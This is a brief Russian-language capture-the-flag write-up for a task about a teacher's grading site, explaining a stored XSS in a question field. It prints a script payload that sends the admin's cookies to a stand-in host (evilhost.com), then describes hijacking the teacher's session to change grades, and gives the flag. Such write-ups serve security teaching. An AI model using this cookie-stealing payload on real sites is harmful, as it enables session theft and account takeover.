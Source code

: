 # marks

## Описание

Говорят, у одного учителя невозможно получить хорошую оценку по ctf'у. Можете разобраться?

(ссылка)

## Решение

Xss в одном из полей вопроса. Создадим такой пейлоад, который отправит на наш хост куки админа. Пример сервиса, позволяющий такое делать - requestbin.com

Возможный пейлоад:

```
<script> location = 'http://evilhost.com?cookie='+document.cookie; </script>
```

Далее, для того, чтобы зайти на аккаунт учителя, заменим значение куки `sessionid` на значение, полученное в запросе. Теперь остается только поставить себе несколько хороших оценок.

### Флаг
SICAMP{y0u_4r3_h0n0ur5_pup1l_4nd_x55_m457ir}